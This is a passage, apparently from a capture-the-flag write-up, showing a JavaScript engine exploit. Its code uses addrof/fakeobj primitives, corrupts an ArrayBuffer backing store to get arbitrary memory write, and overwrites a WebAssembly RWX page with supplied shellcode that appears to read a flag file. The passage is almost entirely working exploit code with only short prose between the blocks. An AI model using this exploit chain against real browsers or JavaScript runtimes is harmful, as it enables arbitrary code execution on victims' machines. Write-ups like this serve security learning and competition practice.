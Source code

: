 ```javascript
        addr += 1n
    }
    c[1] = itof((4n << 32n) + addr-8n)

    let fake = fakeobj(addrof(c) + 112n + 8n)

    fake[0] = itof(data)
}
```

### arbitrary write
We can do the same thing we did before in Download Horsepower to get an arbitrary write: modify the backing store of an ArrayBuffer, and write to it.

```javascript
function arb_write32(addr, data){
    if (addr % 2n == 1){
        addr -= 1n
    }

    let dataview = new DataView(evil_buf)


    heap_write(addrof(evil_buf) + 0x14n, addr)


    dataview.setBigUint64(0, data, true)
}


evil_buf = new ArrayBuffer(0x100)

print("evil buf @", hex(addrof(evil_buf)))
```

### remote shellcode execution
Yet again, we can do the same thing we did for Download Horsepower: overwrite the instructions of a WebAssembly instance to our own shellcode.

```javascript
var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
var wasm_mod = new WebAssembly.Module(wasm_code);
var wasm_instance = new WebAssembly.Instance(wasm_mod);
var pwn = wasm_instance.exports.main;

rwx_page = read(addrof(wasm_instance) + 103n)

print("rwx @", hex(rwx_page))

shellcode = [0xcfe016a, 0x66b84824, 0x2e67616c, 0x50747874, 0x4858026a, 0xf631e789, 0x90050f99, 0x41909090, 0xffffffba, 0xc689487f, 0x6a58286a, 0xf995f01, 0x5]

dataview = new DataView(evil_buf)
heap_write(addrof(evil_buf) + 0x14n, rwx_page)

for(i = 0; i < shellcode.length; ++i){
    dataview.setBigUint64(i*4, BigInt(shellcode[i]), true)
}
```
